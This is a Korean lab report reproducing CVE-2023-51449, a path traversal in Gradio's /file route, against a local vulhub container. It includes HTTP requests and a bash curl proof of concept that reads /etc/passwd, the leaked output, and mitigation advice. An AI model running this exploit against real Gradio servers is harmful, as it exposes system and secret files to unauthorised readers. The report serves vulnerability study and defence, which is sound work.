


# CVE-2023-51449 실습 보고서

## 1. 취약점 요약

| 항목 | 내용 |
| --- | --- |
| 취약점명 | Gradio `/file` 라우트 Directory Traversal 및 SSRF |
| CVE | CVE-2023-51449 |
| 영향 버전 | `gradio < 4.11.0` |
| 패치 버전 | `gradio 4.11.0` |
| 실습 버전 | `vulhub/gradio:4.10.0` |
| 위험도 | High |
| 영향 | 원격 공격자가 서버 내 임의 파일을 읽거나 `/file` 라우트를 SSRF에 악용할 수 있음 |

Gradio는 Python 기반 웹 인터페이스를 빠르게 구성할 수 있는 라이브러리이다. 취약한 버전의 Gradio에서는 `/file` 라우트가 파일 경로를 안전하게 검증하지 못해, 공격자가 업로드된 파일의 임시 경로를 기준으로 `../` 경로 순회를 수행하면 서버 내부 파일에 접근할 수 있다.

이번 실습에서는 Gradio 4.10.0 환경에서 파일을 업로드하여 `/tmp/gradio/...` 경로를 획득한 뒤, `/file=` 엔드포인트에 Directory Traversal 페이로드를 전달하여 `/etc/passwd` 파일을 읽는 것을 확인했다.

## 2. 환경 구성

### 2.1 실습 환경

| 구분 | 값 |
| --- | --- |
| 대상 서비스 | Gradio |
| 컨테이너 이미지 | `vulhub/gradio:4.10.0` |
| 서비스 포트 | `7860/tcp` |
| 접근 URL | `http://localhost:7860` 또는 `http://<실습서버IP>:7860` |
| 테스트 도구 | Burp Suite Repeater |

### 2.2 Docker Compose 설정

```yaml
services:
  web:
    image: vulhub/gradio:4.10.0
    ports:
      - "7860:7860"
```

### 2.3 실행 명령

```bash
docker compose up -d
```

실습 종료 후에는 다음 명령으로 컨테이너를 정리한다.

```bash
docker compose down
```

## 3. 취약 조건

이 취약점이 재현되기 위한 조건은 다음과 같다.

- Gradio 버전이 `4.11.0` 미만이어야 한다.
- Gradio 앱의 `/file` 라우트에 접근 가능해야 한다.
- 공격자가 서버에 존재하는 파일 경로를 알거나 추측할 수 있어야 한다.
- 실습처럼 `/upload` 응답을 통해 `/tmp/gradio/<hash>/<filename>` 형태의 임시 업로드 경로를 확인할 수 있으면 공격 경로를 쉽게 구성할 수 있다.
- 서비스가 외부에 공개되어 있거나 `share=True`, Hugging Face Spaces 등 공개 URL로 접근 가능한 상태라면 원격 악용 위험이 커진다.

## 4. 재현 절차

### 4.1 취약 환경 실행

```bash
docker compose up -d
```

서비스 실행 후 `http://localhost:7860`으로 Gradio 앱에 접근한다.

### 4.2 파일 업로드로 서버 내부 임시 경로 확인

`/upload` 엔드포인트에 파일을 업로드하면 서버가 저장한 임시 파일 경로가 응답에 포함된다.

```http
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files"; filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--
```

응답 예시는 다음과 같다.

```json
[
  "/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/okmijnuhbygv"
]
```

실습 결과 화면:



### 4.3 `/file` 라우트에 Directory Traversal 페이로드 전달

업로드 응답에서 확인한 `/tmp/gradio/...` 경로 뒤에 `../`를 반복 삽입하여 루트 디렉터리까지 이동한 뒤 `/etc/passwd`를 요청한다.

```http
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
User-Agent: Mozilla/5.0
Connection: close
Accept-Encoding: gzip
```

## 5. PoC 코드

아래 PoC는 `curl`을 사용해 파일 업로드 후 반환된 경로를 기반으로 `/etc/passwd`를 읽는 예시이다. 대상 주소는 실습 환경에 맞게 변경한다.

```bash
#!/usr/bin/env bash

TARGET="http://localhost:7860"
BOUNDARY="---------------------------250033711231076532771336998311"

curl -s -i -X POST "$TARGET/upload" \
  -H "Content-Type: multipart/form-data; boundary=$BOUNDARY" \
  --data-binary $'-----------------------------250033711231076532771336998311\r\nContent-Disposition: form-data; name="files"; filename="okmijnuhbygv"\r\nContent-Type: application/octet-stream\r\n\r\n123456\r\n-----------------------------250033711231076532771336998311--\r\n'

curl -s --path-as-is \
  "$TARGET/file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd"
```

업로드 경로의 해시 값은 실행할 때마다 달라질 수 있으므로, 실제 공격에서는 첫 번째 응답에서 반환된 경로를 확인한 뒤 두 번째 요청의 경로에 반영해야 한다.

## 6. 실행 결과

`/file=` 요청에 Directory Traversal 페이로드를 삽입한 결과, 서버의 `/etc/passwd` 내용이 HTTP 응답 본문에 포함되어 반환되었다.

응답 일부:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
```

실습 결과 화면:



이를 통해 취약한 Gradio `/file` 라우트에서 경로 정규화 및 접근 제어가 충분하지 않을 경우, 원격 사용자가 서버 내부 파일을 읽을 수 있음을 확인했다.

## 7. 대응 방안

- Gradio를 `4.11.0` 이상으로 업그레이드한다.
- 외부에 공개된 Gradio 앱은 반드시 인증을 적용하고, 불필요한 공개 URL 또는 `share=True` 사용을 제한한다.
- `/file`과 같은 파일 제공 라우트는 허용된 디렉터리 내부 파일만 반환하도록 경로 정규화 후 base path 검증을 수행해야 한다.
- `../`, URL 인코딩된 경로 순회 문자열, 절대 경로 접근 시도를 차단한다.
- 컨테이너 실행 시 최소 권한 원칙을 적용하고, 민감 파일이 웹 애플리케이션 프로세스에서 읽히지 않도록 파일 권한을 제한한다.
- WAF 또는 프록시에서 `/file=` 요청에 대한 비정상 경로 패턴을 탐지하도록 로깅 및 차단 규칙을 구성한다.
- 취약점 스캐닝과 의존성 점검을 통해 Gradio 같은 서드파티 패키지의 보안 업데이트를 주기적으로 확인한다.
